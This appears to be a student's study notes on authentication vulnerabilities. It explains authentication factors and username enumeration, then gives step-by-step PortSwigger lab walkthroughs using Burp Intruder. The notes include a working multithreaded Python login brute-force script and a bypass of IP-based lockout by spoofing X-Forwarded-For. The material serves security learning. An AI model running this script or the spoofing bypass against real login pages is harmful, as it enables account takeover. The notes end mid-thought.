# Authentication Vulnerabilities

## 1. What is Authentication?
Authentication is the process of verifying the identity of a user or client.
(The website checks whether the person trying to log in is really the correct user or not.)

**Example**
Suppose a user enters:
- Username: Carlos123
- Password: mypassword

The website checks:
- Does this username exist?
- Is the password correct?

If both are correct: **Access Granted**  
If incorrect: **Access Denied**

## 2. Why Authentication is Important
- Websites are available on the internet for everyone.
- Because of this:
    - Attackers can also try to access accounts
    - Websites must verify users properly
- Weak authentication can allow unauthorized access

**Authentication is one of the most important parts of web security.**

## 3. Types of Authentication
There are mainly 3 types of authentication factors.

### 3.1 Something You Know
This means information only the user should know.

**Examples:**
- Password
- PIN
- Security question answer

These are called: **Knowledge Factors**

**Example**
- Password: Hello@123

The website assumes:
> "If the user knows the password, then they are the real user."

### 3.2 Something You Have
This means a physical object the user owns.

**Examples:**
- Mobile phone
- OTP device
- Security token
- Smart card

These are called: **Possession Factors**

**Example**
- OTP sent to mobile phone

Only the real user should have access to that phone.

### 3.3 Something You Are or Do
This is based on biometrics or behavior.

**Examples:**
- Fingerprint
- Face recognition
- Voice recognition
- Typing pattern

These are called: **Inherence Factors**

## 4. Authentication vs Authorization
Many beginners confuse these two terms.

| Authentication | Authorization |
| :--- | :--- |
| Checks: *"Who are you?"* | Checks: *"What are you allowed to do?"* |
| Verifies the identity of the user. | Verifies permissions. |

**Example**

**Step 1 Authentication**
- User logs in with:
    - Username: Carlos123
    - Password: pass123
- Website verifies credentials.
- If correct: User authenticated successfully

**Step 2  Authorization**
- Now website checks permissions.
- Example questions:
    - Can the user delete accounts?
    - View admin panel?
    - Edit other users?
- If not allowed: **Access Denied**

## 5. How Authentication Vulnerabilities Arise
Authentication vulnerabilities mainly happen in 2 ways.

### 5.1 Weak Authentication Mechanisms
The website does not properly protect against attacks like:
- Brute-force attacks
- Password guessing
- Username enumeration

**Example**
If a website allows unlimited login attempts:
> Attacker can try thousands of passwords

### 5.2 Broken Authentication Logic
Sometimes developers make coding mistakes.
These mistakes allow attackers to bypass authentication completely.
This is called: **Broken Authentication**

**Example**
Suppose developer writes incorrect login logic.
> Attacker may log in without knowing password.

## 6. Impact of Vulnerable Authentication
Authentication vulnerabilities are very dangerous.

**Possible Impacts**

- **6.1 Account Takeover**  
  Attacker gains access to another user's account.

- **6.2 Access to Sensitive Data**  
  Attacker may access:
    - Personal information
    - Business data
    - Private messages

- **6.3 Admin Account Compromise**  
  If attacker gains admin access:
    - Full website compromise may happen
    - Possible actions:
        - Delete users
        - Modify database
        - Access internal systems

- **6.4 Additional Attack Surface**  
  Even low-level accounts may expose hidden pages.
  These pages may contain more vulnerabilities.

## 7. Password-Based Login Systems
Most websites use username + password login systems.

**Login Flow**
1. User enters: Username + Password
2. Website checks database.
3. If credentials are correct: User logged in
4. If incorrect: Login failed

## 8. Brute-Force Attacks
A brute-force attack means:
> Trying many usernames and passwords repeatedly until correct credentials are found.

**Attack Process**

1. Attacker prepares username list (e.g., admin, administrator, carlos, john, support).
2. Attacker prepares password list (e.g., 123456, password, admin123, welcome, qwerty).
3. Automated tools try combinations rapidly.

**Why Brute Force Works**
Many users choose weak passwords like:
- password123
- admin123
- hello123

These are easy to guess.

## 9. Brute-Forcing Usernames
Usernames are often predictable.

**Common Username Patterns**
- Email Format: `firstname.lastname@company.com`
- Predictable Admin Names: admin, administrator, root, support

**Information Disclosure**
Sometimes websites accidentally expose usernames.

**Example Sources**
- Public user profiles
- HTTP responses
- Support pages
- Email leaks

## 10. Brute-Forcing Passwords
Attackers also try guessing passwords.

## 11. Password Policies
Websites often require strong passwords.

**Common Password Rules**
- Minimum Length (e.g., at least 8 characters)
- Uppercase + Lowercase Letters (e.g., HelloWorld)
- Special Characters (e.g., Hello@123)

## 12. Human Behavior Weakness
Even with strong password rules, users still create predictable passwords.

**Example**
- Original password: `mypassword` (rejected)
- User changes it to: `Mypassword1!`

This still follows a predictable pattern.

**More Examples**
- `Mypassword1?`
- `Mypassword2!`
- `Myp4$$w0rd`

Attackers know these patterns. This makes brute-force attacks more effective.

## 13. Username Enumeration
Username enumeration means:
> Finding valid usernames by observing website behavior

**Why It is Dangerous**
If attacker knows valid usernames:
> Brute-force attack becomes much easier

## 14. How Username Enumeration Happens
It usually happens in:
- Login forms
- Registration forms
- Forgot password pages

## 15. Username Enumeration Through Status Codes
Different HTTP status codes may reveal valid usernames.

**Example**
- Invalid Username: `HTTP/1.1 401 Unauthorized`
- Valid Username but Wrong Password: `HTTP/1.1 200 OK`

**Why This is Dangerous**
Different responses indicate: Username exists

## 16. Username Enumeration Through Error Messages
Different error messages may expose valid usernames.

**Example**
- **Case 1** (Invalid Username): `Invalid username`
- **Case 2** (Valid Username but Wrong Password): `Incorrect password`

**Why This is Dangerous**
Attacker learns: Username is correct. Now attacker only needs password.

## 17. Username Enumeration Through Response Time
Sometimes websites process valid usernames differently. This creates response time differences.

**Example**
- Invalid Username: Website immediately rejects request. Response time: ~100 ms
- Valid Username: Website additionally checks password. Response time: ~500 ms

**Why This Happens**
Extra password verification takes more time. Attackers measure these delays to identify valid usernames.

## 18. Long Password Timing Attack
Attackers may submit extremely long passwords.
- Example:
`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`

**Why?**
- If username is valid:
    - Website processes long password
    - More computation happens
    - Response becomes slower
- This helps attacker identify valid usernames.




## Step 1: Capture the Login Request

1. Start **Burp Suite** and keep interception/history enabled.
2. Open the target login page in the browser.
3. Enter:
   - Invalid username
   - Invalid password
4. Submit the login form.

---


## Step 2: Send the Request to Intruder

1. In Burp Suite, go to:

   ```text
   Proxy > HTTP history
   ```

2. Find the request:

   ```http
   POST /login
   ```

3. Right-click the request.
4. Select:

   ```text
   Send to Intruder
   ```


---

## Step 3: Configure Username Payload Position

1. Open the **Intruder** tab.
2. Go to the **Positions** section.
3. Burp automatically marks the username parameter like this:

   ```http
   username=§invalid-username§&password=invalid-password
   ```

4. Leave the password static for now.
5. Make sure attack type is:

   ```text
   Sniper
   ```

---

## Step 4: Add Username Wordlist

1. Open the **Payloads** tab.
2. Ensure payload type is:

   ```text
   Simple list
   ```

3. Under **Payload configuration**, paste the list of candidate usernames.
4. Click:

   ```text
   Start attack
   ```

---

## Step 5: Identify Valid Username

1. After the attack finishes, observe the:

   ```text
   Length
   ```

   column.

2. Sort the results by clicking the column header.
3. Notice one response is longer than the others.

### Normal Responses

Most responses contain:

```text
Invalid username
```

### Different Response

One response contains:

```text
Incorrect password
```

This means:

- Username is valid
- Password is wrong

4. Note the username shown in the **Payload** column.

---

## Step 6: Configure Password Brute Force

1. Close the previous attack window.
2. Return to the **Intruder** tab.
3. Click:

   ```text
   Clear §
   ```

4. Replace the username with the valid username you discovered.
5. Add payload markers around the password parameter.

Example:

```http
username=identified-user&password=§invalid-password§
```

---

## Step 7: Add Password Wordlist

1. In the **Payloads** tab:
   - Remove username payloads
   - Paste candidate passwords

2. Click:

   ```text
   Start attack
   ```

---


## Step 8: Find the Correct Password

1. After the attack finishes, observe the:

   ```text
   Status
   ```

   column.

2. Most responses return:

   ```text
   200 OK
   ```

3. One response returns:

   ```text
   302 Found
   ```

This usually indicates:

- Successful login
- Correct password found

4. Note the password from the **Payload** column.

---

## Step 9: Login to the Application

1. Go back to the login page.
2. Enter:
   - Valid username
   - Correct password

3. Login successfully.
4. Open the user account page to solve the lab.

---

# Important Note

It is also possible to brute-force both username and password together using:

```text
Cluster Bomb Attack
```

However, identifying a valid username first is usually much faster and more efficient.




# Multithreaded Login Brute Force Script

This Python script automates username and password brute forcing for PortSwigger Web Security Academy labs.

It is especially useful when using Burp Suite Community Edition because Intruder attacks are rate-limited and slow.

The script:
- Takes username and password files as input
- Uses multithreading for faster execution
- Displays a live loading animation
- Shows total attempts and elapsed time
- Stops automatically when valid credentials are found

---

# Python Script

```python
import requests
import threading
import time
from concurrent.futures import ThreadPoolExecutor

url = "https://0ac800f404e35a518031c67c00140053.web-security-academy.net/login"

session_cookie = "mI76qzVjMKQIT5CxKng8jxRQ4MTjN"

username_file = input("Username file: ")
password_file = input("Password file: ")

headers = {
    "User-Agent": "Mozilla/5.0"
}

cookies = {
    "session": session_cookie
}

with open(username_file, encoding="latin-1") as f:
    usernames = [u.strip() for u in f]

with open(password_file, encoding="latin-1") as f:
    passwords = [p.strip() for p in f]

found = False
attempts = 0
start_time = time.time()

def loading():

    animation = ["|", "/", "-", "\\"]

    i = 0

    while not found:

        elapsed = round(time.time() - start_time, 1)

        print(
            f"\r{animation[i % 4]} Running... "
            f"Attempts: {attempts} | "
            f"Time: {elapsed}s",
            end=""
        )

        time.sleep(0.2)

        i += 1

def login_attempt(username, password):

    global found
    global attempts

    if found:
        return

    attempts += 1

    data = {
        "username": username,
        "password": password
    }

    try:

        r = requests.post(
            url,
            data=data,
            headers=headers,
            cookies=cookies,
            allow_redirects=False,
            timeout=3
        )

        if r.status_code == 302:

            found = True

            print("\n\n===================================")
            print("USERNAME =", username)
            print("PASSWORD =", password)
            print("===================================")

    except:
        pass

threading.Thread(target=loading, daemon=True).start()

with ThreadPoolExecutor(max_workers=100) as executor:

    for username in usernames:

        for password in passwords:

            if found:
                executor.shutdown(wait=False)
                break

            executor.submit(
                login_attempt,
                username,
                password
            )

print("\nFinished.")
```
# Install Required Module

```bash
pip install requests
```

# Save Script

```bash
nano bruteforce.py
```

Paste the script and save the file.

# Run Script

```bash
python3 bruteforce.py
```

#  Input

```text
Username file: usernames.txt
Password file: passwords.txt
```

# Output


# Features

- Multithreaded login attempts
- Faster than Burp Suite Community Intruder
- Live status indicator
- Displays elapsed time
- Stops automatically after finding valid credentials

---



## Step 1: Capture the Login Request

1. Start **Burp Suite**.
2. Open the login page.
3. Enter:
   - Invalid username
   - Invalid password
4. Submit the login form.

---

## Step 2: Send Request to Intruder

1. Go to:

   ```text
   Proxy > HTTP history
   ```

2. Find the request:

   ```http
   POST /login
   ```

3. Highlight the username parameter.
4. Right-click the request.
5. Select:

   ```text
   Send to Intruder
   ```

---

## Step 3: Configure Payload Position

1. Open the **Intruder** tab.
2. Burp automatically marks the username parameter:

```http
username=§invalid-user§&password=invalid-password
```

3. Keep the password static for now.

---

## Step 4: Add Username Wordlist

1. Open the **Payloads** side panel.
2. Ensure payload type is:

   ```text
   Simple list
   ```

3. Paste the list of candidate usernames.

---

## Step 5: Configure Grep - Extract

1. Open the **Settings** tab.
2. Under:

   ```text
   Grep - Extract
   ```

3. Click:

   ```text
   Add
   ```

4. In the response window:
   - Scroll until you find:

```text
Invalid username or password.
```

5. Highlight only the message text using the mouse.
6. Burp automatically configures extraction settings.
7. Click:

   ```text
   OK
   ```

---

## Step 6: Start Username Enumeration Attack

1. Click:

   ```text
   Start attack
   ```

2. Wait for the attack to finish.

---

## Step 7: Identify Valid Username

1. Observe the new extracted column in results.
2. Sort the results using this column.

### Normal Responses

Most responses contain:

```text
Invalid username or password.
```

### Different Response

One response contains:

```text
Invalid username or password 
```

Notice:

- There is a trailing space instead of a period (`.`)
- This subtle difference indicates a valid username

3. Note the username from the **Payload** column.

---

## Step 8: Configure Password Brute Force

1. Close the results window.
2. Return to the **Intruder** tab.
3. Replace the username with the valid username.
4. Add payload markers around the password parameter.

Example:

```http
username=identified-user&password=§invalid-password§
```

---

## Step 9: Add Password Wordlist

1. Open the **Payloads** tab.
2. Remove the username list.
3. Paste the password list.
4. Start the attack.

---

## Step 10: Identify Correct Password

1. After the attack finishes, observe the:

   ```text
   Status
   ```

   column.

2. Most responses return:

```text
200 OK
```

3. One response returns:

```text
302 Found
```

This indicates a successful login.

4. Note the password from the **Payload** column.

---

## Step 11: Login Successfully

1. Open the login page.
2. Enter:
   - Valid username
   - Correct password

3. Login successfully.
4. Access the user account page to solve the lab.

---

# Important Note

It is also possible to brute-force both username and password using:

```text
Cluster Bomb Attack
```

However, identifying a valid username first is much more efficient.

---

## Step 1: Capture Login Request

1. Start **Burp Suite**.
2. Open the login page.
3. Enter:
   - Invalid username
   - Invalid password
4. Submit the login form.


## Step 2: Send Request to Repeater

1. Go to:

   ```text
   Proxy > HTTP history
   ```

2. Find the request:

   ```http
   POST /login
   ```

3. Right-click the request.
4. Select:

   ```text
   Send to Repeater
   ```

## Step 3: Observe IP-Based Brute Force Protection

1. In **Repeater**, send multiple invalid login requests.
2. Notice:

```text
Your IP gets blocked after too many failed attempts.
```

This indicates:

```text
IP-based brute-force protection is enabled.
```


## Step 4: Bypass IP Blocking Using X-Forwarded-For

1. Add the following header to the request:

```http
X-Forwarded-For: 1
```

2. Send the request again.
3. Change the value each time:

```http
X-Forwarded-For: 2
X-Forwarded-For: 3
X-Forwarded-For: 4
```


This spoofs different IP addresses and bypasses the block.

## Step 5: Discover Timing Difference

1. Continue testing different usernames.
2. Use a very long password:

```text
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

3. Observe the response times.

### Observation

- Invalid usernames respond quickly.
- Valid usernames take longer to respond.

This happens because:

```text
The server spends extra time checking the password for valid usernames.
```
- if username is incorrect:
  
  
  
- if the username  correct and password incorrect :



  # no differnece in both case
  - if the username correct and password is long : response time is big
    
